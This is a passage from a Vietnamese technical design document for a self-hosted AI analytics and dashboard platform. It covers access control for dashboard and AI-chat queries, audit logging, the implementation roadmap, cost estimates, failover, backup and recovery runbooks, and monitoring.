| **LIDA** | ✅ Full pipeline | ❌ Python only | ⚠️ Python environment | ✅ | ⚠️ Code execution | 🟡 Conceptual only | **Learn pattern** |
| **Vizro** | ✅ MCP | ❌ Python/Dash | ✅ Server-side | ✅ | ✅ | 🔴 Separate server | Learn pattern |
| **Superset** | ✅ MCP (v5.0) | ⚠️ Own React | ✅ | ✅ | ✅ Full RBAC | 🔴 Full platform | Reference only |
| **Metabase** | ⚠️ Cloud only | ⚠️ Own React | ✅ | ✅ | ✅ | 🔴 Full platform | Reference only |
| **Evidence (fork)** | ❌ | ❌ Svelte | ⚠️ Needs fork | ✅ | ⚠️ SQL exposed | 🔴 3-4 tuần | ❌ Not recommended |

#### 6.10.4. Kết Luận — Áp Dụng Vào Kiến Trúc Hiện Tại

> [!IMPORTANT]
> **Research này đã dẫn tới kiến trúc 5-layer visualization** (§6.0.3). Các key learnings:
> - **ECharts** là chart engine chính — JSON config = AI-friendly, 50+ chart types, phục vụ cả AI Builder và Traditional Builder
> - **Hybrid Dashboard Builder** (AI mode + Traditional mode) phủ sóng UC3 hoàn toàn — loại bỏ nhu cầu Graphic Walker cho phần lớn users
> - **Graphic Walker** demoted thành **optional** (Layer 5) — chỉ hữu ích cho data team muốn Tableau-like drag-drop exploration. Không cần thiết cho 300-500 nhân viên siêu thị
> - **LIDA pattern** (LLM → code → chart) áp dụng cho cả UC2 (AI Chat) và UC3 (AI Builder mode)
> - **Report Builder** (BlockNote) = UC4, tách biệt khỏi Dashboard Builder
>
> Xem **§6.0.3** cho final 5-layer stack.

---
## 7. Data Security Architecture — Zero Raw Data Exposure

> [!CAUTION]
> **Nguyên tắc bảo mật tối cao**: **Không bao giờ** để raw data (row-level records) tới browser. Mọi data phải qua **Server-Side Query Proxy**, chỉ trả về aggregated results dưới dạng `{labels, values}` cho charts.
>
> **Lý do**: Data doanh thu, margin, khách hàng, giá vốn nếu bị export dưới dạng structured data (JSON/CSV) có thể bị copy và chia sẻ cho đối thủ. Server-side enforcement là **biện pháp duy nhất** đảm bảo zero data exposure.

### 7.1. Security Architecture — Server-Side Query Proxy

```mermaid
graph TD
    subgraph "SECURE Architecture"
        USER["👤 User (Browser)"] --> |"Filter request"| AUTH["🔐 Auth + RBAC"]
        AUTH --> |"Verify permissions"| PROXY["🔒 Query Proxy<br/>(Next.js API Routes)"]
        PROXY --> |"Parameterized SQL"| SR["🗄️ StarRocks"]
        SR --> |"Aggregated rows"| PROXY
        PROXY --> |"chart data ONLY<br/>{labels: [...], values: [...]}"| USER
    end

    style PROXY fill:#6bcb77,stroke:#333,color:#333
    style AUTH fill:#ffd93d,stroke:#333,color:#333
```

**Key Security Controls:**

| Layer | Control | Implementation |
|:------|:--------|:--------------|
| **L1: Authentication** | JWT + Session verification | Better Auth, mọi request phải authenticated |
| **L2: Authorization** | Role-Based Access Control (RBAC) | Query Proxy check user role → filter data access |
| **L3: Data Minimization** | Aggregation enforcement | Query Proxy chỉ return `{labels, values}`, không raw rows |
| **L4: Audit** | Full query logging | Mọi query + filter + user_id → PostgreSQL audit table |
| **L5: Network** | Private network isolation | StarRocks không expose ra internet, chỉ accessible từ API server |

**Data Minimization Example:**

**API Response Format**: ✅ Production: `{labels: ["T1",...], values: [1200,...], unit: "triệu VND", chartType: "line"}` — chỉ aggregated chart data. ❌ KHÔNG BAO GIỜ raw data rows

### 7.2. Row-Level Security (RBAC)

**Row-Level Security** (cần implement):
- **View-based**: `v_sales_secure` = `fct_sales_daily` JOIN `dim_store` WHERE `region IN (user_data_permissions.allowed_region)`
- **`applyDataPolicies(filters, permissions)`**: `regional_manager` → force filter to assigned regions + hide `cogs/gross_margin/supplier_price`. `store_manager` → only own stores, no region aggregation. `executive` → full access, audit-logged


### 7.3. RBAC Enforcement Cho AI Chat Path (UC2)

> [!CAUTION]
> **Vấn đề**: Dashboard queries (UC1/UC3) đi qua Query Proxy có RBAC enforcement. Nhưng AI Chat (UC2) flow là: `RBAC → Agent → StarRocks` — **Agent query StarRocks trực tiếp**. Nếu không enforce RBAC trong chat path, LLM-generated SQL có thể access data mà user không có quyền xem.
>
> **Giải pháp**: AI Agent **BẮT BUỘC** phải đi qua cùng RBAC layer. Có 3 điểm enforcement:

```mermaid
graph TD
    CHAT["💬 UC2: User Chat Query"] --> AUTH["🔐 Auth + RBAC<br/>(extract permissions)"]
    AUTH --> AGENT["🤖 LangGraph Agent<br/>(receives user permissions)"]
    
    AGENT --> |"SQL path"| WREN["Wren AI<br/>+ RBAC context injection"]
    AGENT --> |"Python path"| SANDBOX["K8s Pod Sandbox<br/>+ RBAC-filtered proxy"]
    
    WREN --> |"SQL + WHERE clauses<br/>filtered by permissions"| RBAC_PROXY["🛡️ Chat Query Proxy<br/>(same RBAC as dashboard)"]
    SANDBOX --> |"pd.read_sql() routed to"| RBAC_PROXY
    
    RBAC_PROXY --> |"Parameterized query"| SR["🗄️ StarRocks"]
    SR --> |"Filtered results"| RBAC_PROXY
    
    RBAC_PROXY --> AGENT
    AGENT --> |"Answer + Chart"| CHAT
    
    style RBAC_PROXY fill:#ff6b6b,stroke:#333,color:#fff
    style AUTH fill:#ffd93d,stroke:#333,color:#333
```

**3 điểm enforcement RBAC trong Chat Path:**

| # | Enforcement Point | Mechanism | Mô tả |
|:--|:------------------|:----------|:------|
| **E1** | **Agent Context Injection** | System prompt + state | User permissions được inject vào LangGraph state. Agent system prompt bao gồm: "You can ONLY query data for regions: {user.allowed_regions}. NEVER query outside this scope." |
| **E2** | **SQL Post-Processing** | Mandatory WHERE injection | Mọi SQL query từ Agent (dù qua Wren AI hay LLM-generated) đều bị **intercept** trước khi execute. RBAC middleware tự động thêm `WHERE s.region IN (...)` dựa trên user permissions — giống hệt Dashboard Query Proxy |
| **E3** | **Result Filtering** | Post-query column masking | Kết quả trả về từ StarRocks được filter: hide sensitive columns (cogs, margin) cho non-executive roles. Áp dụng cho cả SQL path và Python path |

**`ChatRBACMiddleware`** (CRITICAL — cần implement, mọi Agent query PHẢI đi qua):
- **Step 1**: Parse SQL bằng `sqlglot` (AST-based, dialect: starrocks) → extract tables + aliases
- **Step 2**: Build RBAC filter với parameterized `?` placeholders. `regional_manager` → filter `region IN (?)`. `store_manager` → filter `store_code IN (?)`. Nếu query không JOIN `dim_store` → force wrap JOIN
- **Step 3**: Inject RBAC WHERE clause (AST-safe)
- **Step 4**: Block sensitive tables (`_airbyte_raw.*`, `user_data_permissions`, `audit_log`)
- **Step 5**: Enforce LIMIT 10000 nếu chưa có (prevent bulk extraction)
- **`mask_result_columns`**: Non-executive roles → mask `cogs`, `gross_margin`, `supplier_price`, `customer_email`, `customer_phone` → `'***'`

**`SecureAgentExecutor`** (wrapper): `rbac.enforce(sql, user)` → `starrocksPool.query()` → `rbac.mask_result_columns()` → `audit_log()`. KHÔNG CÓ BYPASS

> [!IMPORTANT]
> **Key Principle**: AI Chat path và Dashboard path dùng **cùng RBAC engine**. Sự khác biệt duy nhất:
> - **Dashboard**: RBAC applied tại Query Proxy build SQL phase (pre-defined templates)
> - **Chat**: RBAC applied tại post-SQL-generation phase (Agent-generated SQL wrapped với RBAC filters)
> 
> Kết quả: User **không bao giờ** thấy data ngoài phạm vi quyền, dù hỏi qua Dashboard hay Chat.


### 7.4. Audit Trail — "Ai Xem Gì, Khi Nào"

**`AuditEntry`** (dataclass — cần implement): `timestamp`, `user_id`, `user_role`, `ip_address`, `action` (dashboard_view/export_csv/chat_query), `dashboard`, `filters_applied`, `data_accessed`, `row_count`, `query_hash`, `risk_flags[]` (bulk_export/unusual_time/broad_filter)

**Anomaly Detection Query**: GROUP BY `user_id` trong 1 giờ → flag nếu `query_count > 50` (suspicious) hoặc `attempted_export = 1`


### 7.5. Kiến Trúc Cuối Cùng (Post-Security Review)

```mermaid
graph TD
    subgraph "User's Browser"
        UI["👁️ UC1: Viewer"]
        CHAT["💬 UC2: AI Chat"]
        BUILDER["📐 UC3: Dashboard Builder"]
        REPORT["📄 UC4: Report Builder"]
    end
    
    subgraph "Security Layer"
        AUTH["🔐 Auth (Better Auth)<br/>JWT + Session"]
        RBAC["🛡️ RBAC Engine"]
        AUDIT["📋 Audit Log"]
    end
    
    subgraph "Server (Private Network)"
        API["🔒 Query Proxy<br/>(Next.js API Routes)"]
        REDIS["⚡ Redis Cache<br/>(TTL: 5min)"]
        AGENT["🤖 AI Agent<br/>(LangGraph)"]
        PDF["📑 PDF Service"]
    end
    
    subgraph "Data Layer"
        SR["🗄️ StarRocks"]
        MV["⚡ MVs"]
        PG["🐘 PostgreSQL"]
    end
    
    UI --> |"Filter change"| AUTH
    CHAT --> |"NL question"| AUTH
    BUILDER --> |"Save/Preview"| AUTH
    REPORT --> |"Chart data"| AUTH
    AUTH --> RBAC
    RBAC --> |"Dashboard/Builder"| API
    RBAC --> |"Chat"| AGENT
    
    API --> REDIS
    REDIS --> |"Cache miss"| SR
    SR --> MV
    AGENT --> SR
    
    API --> |"Chart data ONLY<br/>{labels, values}"| UI
    AGENT --> |"Answer + ECharts config"| CHAT
    CHAT --> |"Add to Dashboard"| BUILDER
    CHAT --> |"Add to Report"| REPORT
    BUILDER --> |"Publish"| UI
    REPORT --> |"Share/Publish"| UI
    REPORT --> |"Export"| PDF
    BUILDER --> |"Save layout"| PG
    REPORT --> |"Save report"| PG
    
    AUTH --> AUDIT
    API --> AUDIT
    AGENT --> AUDIT
    
    style API fill:#6bcb77,stroke:#333,color:#333
    style SR fill:#87ceeb,stroke:#333,color:#333
    style AUTH fill:#ffd93d,stroke:#333,color:#333
```


### 7.6. KPIs Bảo Mật

| Metric | Target | Đo bằng | Alert threshold |
|:-------|:-------|:--------|:---------------|
| **Raw data exposure instances** | 0 | Penetration test + security audit | Any > 0 → P1 incident |
| **Query Proxy coverage** | 100% queries via proxy | API gateway metrics | Any direct DB access → P0 |
| **Auth bypass attempts** | 0 successful | WAF + auth logs | Any success → P0 |
| **Data access audit coverage** | 100% | % queries with audit entry | < 99% → investigate |
| **Suspicious query detection** | < 1% false negative | Anomaly detection on audit log | Any undetected bulk access → review |
| **RBAC policy compliance** | 100% | % queries checked against RBAC | < 100% → security gap |
| **Cache hit rate** | > 70% | Redis metrics | < 50% → optimize cache warming |
| **Server-side query p95 latency** | < 300ms | APM metrics | > 500ms → optimize query/MV |


### 7.7. Implementation Checklist — Security

| # | Task | Priority | Dependency | Done khi |
|:--|:-----|:---------|:-----------|:---------|
| 1 | Implement Query Proxy API (Next.js API Routes) | 🔴 P0 | StarRocks deployed | API returns chart data only, no raw data |
| 2 | Setup Better Auth with JWT | 🔴 P0 | #1 | Login/logout working, JWT validated |
| 3 | Implement RBAC engine | 🔴 P0 | #2 | Role-based data filtering enforced |
| 4 | Setup Redis cache for query results | 🟡 P1 | #1 | Cache hit rate > 50% |
| 5 | Build Dashboard Viewer (ECharts) | 🟡 P1 | #1 | Dashboards render with cached data |
| 6 | Implement audit logging | 🟡 P1 | #1, #2 | 100% queries logged |
| 7 | Build Dashboard Builder (react-grid-layout) | 🟡 P1 | #5 | Any user tạo dashboard (personal/global) |
| 8 | Build Report Builder (BlockNote + PDF) | 🟢 P2 | #5 | Reports generate + PDF export |
| 9 | Implement cache warming | 🟢 P2 | #4 | Top 20 filter combos pre-cached |
| 10 | Penetration test | 🔴 P0 | #5 | Zero raw data extractable |


---

## 8. Implementation Roadmap

### 8.1. Phase 0: Data Pipeline Setup (2-3 tuần)
| Task | Deliverable | KPI |
|:-----|:-----------|:----|
| Deploy Airbyte (K8s Helm chart) | Self-hosted ingestion platform | MongoDB + MySQL sources connected |
| Configure CDC: MongoDB Change Streams + MySQL Binlog | CDC replication cho 300+ tables | Zero impact on prod (< 1% CPU) |
| Deploy StarRocks (≥3 BE nodes, StatefulSet) | Analytical cluster running | Query < 1s on test data, 2TB+ ingested |
| Setup dbt project | Raw → Staging → Marts models | 100% tables mirrored |
| Setup Dagster | Pipeline orchestration | Auto-run every 15 min |
| Data quality tests | dbt tests for all critical tables | 100% pass rate |

### 8.2. Phase 1: Foundation (2-3 tuần)
| Task | Deliverable | KPI |
|:-----|:-----------|:----|
| Setup Next.js + FastAPI project | Monorepo structure | Build thành công |
| **Auth & RBAC** | **Better Auth integration — multi-tenant** | **Login + role-based access working** |
| Chat interface cơ bản | Streaming chat UI | Response time < 2s |
| K8s Pod Sandbox integration | Code execution pipeline | Execute Python < 5s (pod startup + execution) |
| File upload (CSV/Excel) | Parse & store files | Support files ≤ 100MB |
| Basic LLM integration | GPT-4o via LangGraph | First query → answer |

### 8.3. Phase 2: Core Analysis (3-4 tuần)
| Task | Deliverable | KPI |
|:-----|:-----------|:----|
| K8s Pod Sandbox + LLM code generation | NL → Python code → K8s execution | Code execution success rate > 90% |
| Visualization engine | Auto chart generation | 5+ chart types |
| Code cell editor | View/edit generated code | Monaco Editor integrated |
| Conversation memory | Multi-turn chat context | 10+ turn coherence |
| Error handling & retry | Self-correcting agent | Recovery rate > 70% |

### 8.4. Phase 3: Database & Semantic (3-4 tuần)
| Task | Deliverable | KPI |
|:-----|:-----------|:----|
| Wren AI semantic layer | MDL setup + text-to-SQL| SQL accuracy > 85% |
| Query caching | Redis-based cache | Cache hit rate > 40% |
| Dashboard builder | Save & arrange charts | Drag-and-drop working |
| Scheduled reports | Auto-run notebooks | Email/Slack delivery |

### 8.5. Phase 4: Production Ready (2-3 tuần)
| Task | Deliverable | KPI |
|:-----|:-----------|:----|
| Observability | Langfuse tracing | 100% request traced |
| Rate limiting & quotas | Usage control | Per-user limits enforced |
| Performance optimization | Query optimization | P95 latency < 5s |
| Security hardening | Sandbox isolation audit | No breakout vulnerabilities |

### 8.6. Tổng Timeline Ước Tính: **10-14 tuần** cho MVP production-ready


---

## 9. Operations & Governance

### 9.1. Technical KPIs

| Metric | Target | Đo bằng |
|:-------|:-------|:--------|
| SQL Generation Accuracy | > 85% | Test suite chuẩn + user feedback |
| Python Code Execution Success Rate | > 90% | Langfuse tracking |
| Chart Generation Quality | > 80% user satisfaction | User rating (1-5) |
| Query Response Time (P50) | < 3s | APM metrics |
| Query Response Time (P95) | < 8s | APM metrics |
| Sandbox Startup Time | < 5s (K8s pod scheduling + container start) | K8s pod metrics, pre-pulled images |
| System Uptime | > 99.5% | Prometheus |

### 9.2. Product KPIs

| Metric | Target | Đo bằng |
|:-------|:-------|:--------|
| First Query to Insight Time | < 2 min | User session tracking |
| User Retention (D7) | > 40% | Analytics |
| Queries per User per Day | ≥ 5 | Usage logs |
| Self-Correction Rate | > 70% | Agent retry tracking |
| Knowledge Base Growth | +10 Q-SQL pairs/week | Vector DB metrics |


### 9.3. Cost Estimation

#### 9.3.1. Ước Tính Chi Phí LLM cho 1000 queries/ngày

| Model | Input Cost | Output Cost | Avg Input Tokens | Avg Output Tokens | Chi phí/query | Chi phí/ngày (1K) | Chi phí/tháng |
|:------|:-----------|:-----------|:----------------|:-----------------|:-------------|:-----------------|:-------------|
| GPT-4o | $2.50/1M | $10/1M | ~2,000 | ~1,500 | ~$0.02 | ~$20 | ~$600 |
| claude-sonnet-4-5 | $3/1M | $15/1M | ~2,000 | ~1,500 | ~$0.029 | ~$29 | ~$870 |
| Gemini 2.5 Flash | $0.15/1M | $0.60/1M | ~2,000 | ~1,500 | ~$0.001 | ~$1.2 | ~$36 |
| **Hybrid Strategy** | — | — | — | — | ~$0.008 | ~$8 | ~$240 |

> [!TIP]
> **Chiến lược tối ưu chi phí:**
> - Dùng **Gemini 2.5 Flash** cho simple queries (intent classification, simple SQL)
> - Dùng **GPT-4o/Claude** cho complex analysis, multi-step reasoning
> - **Cache** kết quả SQL giống nhau → giảm 30-40% queries tới LLM
> - **Q-SQL pair matching** (Vanna.ai approach) → skip LLM entirely cho queries đã biết

#### 9.3.2. Infrastructure Cost (On-Premise K8s)

> [!IMPORTANT]
> **On-premise**: Hardware đã có (K8s cluster). Chi phí dưới đây chỉ tính **software licenses + LLM API**. Chi phí hardware (server, storage, networking) do IT Ops quản lý riêng.
>
> **Resource allocation** trên K8s cluster hiện có:

| Component | K8s Resource Request | Replicas | Notes |
|:----------|:--------------------|:---------|:------|
| **Next.js Frontend** | 2 vCPU, 4GB RAM | 2-3 pods | HPA: scale 2→5 pods khi traffic cao |
| **FastAPI Backend** | 4 vCPU, 8GB RAM | 2-3 pods | Agent orchestration, heavier workload |
| **StarRocks FE** | 4 vCPU, 8GB RAM | 3 pods (StatefulSet) | Leader election via Raft |
| **StarRocks BE** | **16 vCPU, 64GB RAM** | **≥3 pods (StatefulSet)** | **Critical cho 2TB+ data, 300-500 users** |
| **PostgreSQL** | 2 vCPU, 8GB RAM | 1 primary + 1 replica | Metadata, sessions, dashboards, audit |
| **Redis** | 2 vCPU, 4GB RAM | 3 pods (Sentinel/Cluster) | Cache cho 300-500 concurrent users |
| **Airbyte** | 4 vCPU, 8GB RAM | 1 pod + workers | CDC sync 300+ tables |
| **Dagster** | 2 vCPU, 4GB RAM | 1 pod | Pipeline orchestration |
| **Wren AI** | 2 vCPU, 4GB RAM | 1 pod | Semantic layer |
| **ChromaDB/Qdrant** | 2 vCPU, 4GB RAM | 1 pod | Vector store |
| **Langfuse** | 1 vCPU, 2GB RAM | 1 pod | LLM observability |
| **K8s Pod Sandbox** | 2 vCPU, 4GB (per pod, ephemeral) | 0-10 concurrent | Auto-cleanup after execution |
| **Tổng K8s Resources** | **~100 vCPU, ~350GB RAM** | — | Distributed across cluster nodes |

**Chi phí recurring (chỉ software + API):**

| Cost Item | Chi phí/tháng | Notes |
|:----------|:-------------|:------|
| **LLM API (Hybrid)** | ~$240-600 | Gemini Flash + GPT-4o/Claude, ~2000-5000 queries/ngày (300-500 users) |
| **Software licenses** | $0 | Toàn bộ open-source (StarRocks, Airbyte, dbt, Dagster, Wren AI, etc.) |
| **Hardware (existing K8s)** | $0 incremental | Tận dụng K8s cluster on-premise đã có |
| **Storage (SSD cho StarRocks)** | Phụ thuộc infra | ~4-8TB SSD cho 2TB raw data + replicas + MVs |
| **Tổng recurring** | **~$240-600/tháng** | Chủ yếu là LLM API cost |

> [!TIP]
> **So sánh với SaaS alternatives**: Julius.ai Business plan = $50/user/tháng. Với 300 users = **$15,000/tháng** — gấp **25-60x** chi phí self-hosted. Thêm vào đó: SaaS không đảm bảo data residency VN, zero raw data exposure, và customization cho domain siêu thị.


### 9.4. Risk Assessment

| Risk | Impact | Probability | Mitigation |
|:-----|:-------|:-----------|:-----------|
| LLM hallucination → SQL sai | 🔴 High | 🟡 Medium | Semantic Layer (Wren AI) + validation layer + human-in-the-loop |
| Sandbox escape / security breach | 🔴 High | 🟢 Low | K8s Pod security (runAsNonRoot, readOnlyRootFilesystem) + NetworkPolicy isolation + ephemeral pods (no persistent storage) |
| LLM API cost spike | 🟡 Medium | 🟡 Medium | Rate limiting + caching + hybrid model routing + budget alerts |
| Slow response time (>10s) | 🟡 Medium | 🟡 Medium | Streaming SSE + async execution + cache layer |
| Open-source dependency deprecated | 🟡 Medium | 🟢 Low | Modular architecture → swap components dễ dàng |
| Data privacy violation | 🔴 High | 🟢 Low | Self-hosted + data never sent to LLM (chỉ gửi schema/metadata) |
| Complex query accuracy thấp | 🟡 Medium | 🟡 Medium | Training feedback loop + Q-SQL knowledge base + user corrections |


### 9.5. Error Handling & Fallback Strategy (NEW)

> [!WARNING]
> **Hệ thống cần hoạt động graceful khi components fail.** Dưới đây là fallback strategy cho từng component.

| Component | Failure Scenario | Fallback Strategy | User Impact | Recovery SLA |
|:----------|:----------------|:------------------|:------------|:-------------|
| **StarRocks** | Node down / cluster unavailable | Read replica failover; Dashboard shows "Data temporarily unavailable" badge | ⚠️ Stale cache served, new queries queued | < 5 min (auto-failover) |
| **Redis Cache** | Memory full / crash | Bypass cache → query StarRocks directly; Performance degrades to 100-300ms | 🟡 Slower response, no data loss | < 1 min (restart) |
| **AI Agent (LLM)** | API timeout / rate limit | Retry with fallback model (GPT-4o → Gemini Flash); Queue if all fail | ⚠️ Delayed response, retry notification | < 30s (model switch) |
| **K8s Pod Sandbox** | Pod timeout / OOMKilled / crash | K8s auto-restart; Return error with generated code; Retry once on new pod | 🟡 Show code + error explanation | < 15s (new pod spin-up) |
| **Dagster Pipeline** | dbt run fails | Alert → manual investigation; Dashboard continues with last-known-good data | 🟢 No immediate impact (data slightly stale) | < 15 min (manual fix) |
| **Wren AI** | Semantic layer unavailable | Fallback to direct SQL generation (lower accuracy); Log warning | 🟡 Lower accuracy, user notified | < 2 min (restart) |
| **Better Auth** | Auth service down | Cached JWT still valid; Block new logins only | 🟡 Existing sessions continue | < 5 min |

**Circuit Breaker Pattern:**
- Mỗi external dependency (LLM API, StarRocks, K8s Pod Sandbox) đều có circuit breaker
- Threshold: 5 consecutive failures → circuit OPEN → serve degraded
- Half-open check mỗi 30s → auto-recover khi service up

### 9.6. Deployment Architecture (NEW)

| Component | Container Image | Resources | Replicas | Notes |
|:----------|:---------------|:----------|:---------|:------|
| **Next.js Frontend** | `node:20-alpine` | 2 vCPU, 4GB RAM | 2 | Behind Nginx reverse proxy |
| **FastAPI Backend** | `python:3.12-slim` | 4 vCPU, 8GB RAM | 2 | Agent orchestration (LangGraph, Wren AI, K8s Sandbox) |
| **StarRocks FE** | `starrocks/fe-ubuntu` | 4 vCPU, 8GB RAM | 1 (dev), 3 (prod) | MySQL port 9030 |
| **StarRocks BE** | `starrocks/be-ubuntu` | **16 vCPU, 64GB RAM** | **≥3 (StatefulSet)** | Storage + computation. 2TB+ data cần ≥3 nodes |
| **Redis** | `redis:7-alpine` | 2 vCPU, 4GB RAM | 3 (Sentinel/Cluster) | Dashboard cache + rate limiting cho 300-500 users |
| **PostgreSQL** | `postgres:16-alpine` | 2 vCPU, 8GB RAM | 1 | Metadata, sessions, audit |
| **Airbyte** | `airbyte/airbyte` | 4 vCPU, 8GB RAM | 1 | CDC ingestion |
| **Dagster** | `dagster/dagster` | 2 vCPU, 4GB RAM | 1 | Pipeline orchestration |
| **Wren AI** | `wren-ai` | 2 vCPU, 4GB RAM | 1 | Semantic layer |
| **ChromaDB** | `chromadb/chroma` | 1 vCPU, 2GB RAM | 1 | Vector store |
| **Langfuse** | `langfuse/langfuse` | 1 vCPU, 2GB RAM | 1 | LLM observability |
| **Nginx** | `nginx:alpine` | 0.5 vCPU, 512MB RAM | 1 | Reverse proxy + TLS |

**Deployment Strategy (On-Premise K8s):**
- **Phase 1 (MVP)**: Deploy trực tiếp lên K8s cluster on-premise đã có. Helm charts cho mọi component. StarRocks 3 BE nodes (16vCPU, 64GB mỗi node cho 2TB+ data)
- **Phase 2 (Scale)**: StarRocks scale-out thêm BE nodes khi data tăng x10. Redis Cluster. Horizontal pod autoscaling cho FastAPI/Next.js
- **Phase 3 (Future)**: StarRocks storage-compute separation khi data đạt 20-40TB. Dedicated GPU nodes nếu cần local LLM

> [!IMPORTANT]
> **Không có Docker Compose phase** — K8s on-premise đã sẵn sàng. Mọi component deploy dạng K8s Deployment/StatefulSet từ ngày đầu. Helm charts hoặc Kustomize cho quản lý.


### 9.7. High Availability (HA) Strategy

> [!WARNING]
> **MVP (Phase 1) chấp nhận single points of failure** cho tiết kiệm chi phí. Tuy nhiên, khi chuyển sang Production, các component critical PHẢI có HA.

| Component | MVP (Phase 1) | Production (Phase 3) | Downtime Impact | Recovery |
|:----------|:-------------|:--------------------|:---------------|:---------|
| **StarRocks FE** | 1 node | 3 nodes (leader + 2 follower) | ❌ Toàn bộ query fail | Auto-failover via Raft consensus |
| **StarRocks BE** | 1 node | 3 nodes (3-replica data) | ❌ Toàn bộ query fail | Auto-failover, data replicated |
| **PostgreSQL** | 1 node | 1 primary + 1 streaming replica | ❌ Auth fail, dashboard/report mất | Promote replica < 30s |
| **Redis** | 1 node | Redis Sentinel (1 master + 2 replicas) | ⚠️ Cache miss → slower queries | Auto-failover via Sentinel |
| **Next.js** | 1 pod | 2+ pods behind Nginx | ⚠️ UI unavailable | Nginx health check → route to healthy pod |
| **FastAPI** | 1 pod | 2+ pods behind Nginx | ⚠️ AI chat unavailable | Same as Next.js |
| **Dagster** | 1 node | 1 node (acceptable — pipeline delay = data slightly stale) | 🟢 No immediate user impact | Manual restart, data catches up |
| **Wren AI** | 1 node | 1 node + fallback to direct SQL (§4.4.5) | 🟡 Lower accuracy | Fallback automatic, restart < 2min |
| **Airbyte** | 1 node | 1 node (jobs are idempotent, retry on fail) | 🟢 Data sync delayed | Auto-retry built-in |

**Health Check Configuration:**

**K8s Health Checks** (cần config trong Helm charts):

| Component | Liveness Probe | Readiness Probe | Config |
|:----------|:--------------|:---------------|:-------|
| **StarRocks FE** | `exec: mysql -h localhost -P 9030 -e "SELECT 1"` | Same | initialDelay: 30s, period: 10s, failureThreshold: 3 |
| **PostgreSQL** | `exec: pg_isready -U postgres` | Same | period: 10s |
| **Redis** | `exec: redis-cli ping` | Same | period: 5s |
| **FastAPI** | `httpGet: /health :8000` | Same | period: 15s, failureThreshold: 3 |
| **Next.js** | `httpGet: /api/health :3000` | Same | period: 15s, failureThreshold: 3 |


### 9.8. Backup & Disaster Recovery

> [!IMPORTANT]
> **RPO (Recovery Point Objective)** = lượng data tối đa có thể mất khi disaster xảy ra.
> **RTO (Recovery Time Objective)** = thời gian tối đa để khôi phục hệ thống.

| Component | Data Type | Backup Method | Frequency | Retention | RPO | RTO |
|:----------|:----------|:-------------|:----------|:----------|:----|:----|
| **PostgreSQL** | Metadata, dashboards, reports, audit, auth | `pg_dump` → MinIO/S3 | Hàng ngày (2:00 AM) | 30 ngày | 24 giờ | < 1 giờ |
| **PostgreSQL WAL** | Incremental changes | WAL archiving → MinIO/S3 | Continuous | 7 ngày | < 15 phút | < 30 phút |
| **StarRocks** | OLAP data | `BACKUP ... TO REPOSITORY` snapshot → MinIO/S3 (native StarRocks backup) | Hàng ngày (3:00 AM) | 7 ngày | 24 giờ | < 1 giờ (incremental restore). Fallback: full re-sync via Airbyte (2-4 giờ) |
| **Redis** | Cache (ephemeral) | Không backup — cache tự warm lại | N/A | N/A | N/A | < 5 phút |
| **MinIO** | File uploads, artifacts | Cross-bucket replication | Real-time | 90 ngày | < 1 phút | < 30 phút |
| **Wren AI MDL** | Semantic layer config | Git version control | Mỗi change | Unlimited | 0 (in Git) | < 5 phút (git checkout) |
| **dbt models** | Transformation logic | Git version control | Mỗi change | Unlimited | 0 (in Git) | < 5 phút |
| **Docker configs** | docker-compose, .env | Git version control (encrypted) | Mỗi change | Unlimited | 0 | < 15 phút |

**Disaster Recovery Runbook:**

```
=== Scenario 1: PostgreSQL Primary Down ===
1. Promote streaming replica: pg_ctl promote -D /var/lib/postgresql/data
2. Update connection strings (Next.js, FastAPI) → new primary
3. Verify auth, dashboard, reports accessible
4. Create new replica from new primary
RTO: < 30 phút

=== Scenario 2: StarRocks Cluster Down ===
1. Restart StarRocks FE + BE containers
2. If data corrupted: Drop and re-create tables
3. Trigger Airbyte full re-sync for affected tables
4. Trigger dbt run (full refresh)
5. Verify MVs re-created
RTO: 2-4 giờ (depending on data volume)

=== Scenario 3: Full Server Down ===
1. Provision new server (same specs)
2. Pull Docker images + restore configs from Git
3. Restore PostgreSQL from latest pg_dump (MinIO/S3)
4. Start all services
5. Trigger Airbyte initial sync
6. Trigger dbt run
7. Verify end-to-end: chat query → correct response
RTO: 4-8 giờ
```


### 9.9. Monitoring & Alerting Architecture

> [!IMPORTANT]
> **Observability stack**: Langfuse (LLM tracing) + Prometheus (system metrics) + Grafana (dashboards) + Loki (logs). Tất cả self-hosted.

#### 9.9.1. Monitoring Stack

```mermaid
graph TD
    subgraph "Application Layer"
        NJS["Next.js"] --> |"metrics"| PROM["Prometheus"]
        FAST["FastAPI"] --> |"metrics"| PROM
        FAST --> |"LLM traces"| LANGFUSE["Langfuse"]
        SR["StarRocks"] --> |"metrics"| PROM
        REDIS["Redis"] --> |"metrics"| PROM
    end

    subgraph "Log Aggregation"
        NJS --> |"stdout/stderr"| LOKI["Grafana Loki"]
        FAST --> |"stdout/stderr"| LOKI
        DAGSTER["Dagster"] --> |"pipeline logs"| LOKI
    end

    subgraph "Visualization & Alerting"
        PROM --> GRAFANA["Grafana Dashboards"]
        LOKI --> GRAFANA
        LANGFUSE --> GRAFANA
        GRAFANA --> |"alerts"| SLACK["Slack #alerts"]
        GRAFANA --> |"critical"| PAGER["PagerDuty / Email"]
    end

    style GRAFANA fill:#D97706,stroke:#333,color:#fff
    style LANGFUSE fill:#4F46E5,stroke:#333,color:#fff
```

#### 9.9.2. Grafana Dashboards

| Dashboard | Key Metrics | Purpose |
|:----------|:-----------|:--------|
| **Pipeline Health** | Airbyte sync status, dbt run duration, dbt test results, data freshness | Data team: pipeline đang chạy tốt? |
| **Query Performance** | P50/P95/P99 latency, cache hit rate, MV rewrite rate, StarRocks QPS | Backend team: performance bottlenecks? |
| **LLM Cost & Quality** | Token usage/day, cost/query, model routing ratio, SQL accuracy, hallucination rate | AI team: cost optimization, quality tracking |
| **User Engagement** | Active users/day, queries/user, dashboard views, chat sessions, cache saved cost | Product: adoption metrics |
| **Security & Audit** | Auth failures, RBAC denials, suspicious query patterns, data access frequency | Security: anomaly detection |

#### 9.9.3. Alert Rules

| Alert | Condition | Severity | Channel | Action |
|:------|:---------|:---------|:--------|:-------|
| **Pipeline failed** | dbt run fails > 2 consecutive times | 🔴 Critical | Slack + PagerDuty | Investigate dbt logs, check source DB |
| **Data stale** | `data_freshness > 30 minutes` | 🟡 Warning | Slack #data-alerts | Check Airbyte sync status |
| **Query latency high** | P95 > 5s for > 5 minutes | 🟡 Warning | Slack #backend | Check StarRocks load, Redis cache |
| **LLM cost spike** | Daily LLM cost > 2× average | 🟡 Warning | Slack #ai-team | Check for query loops, model routing |
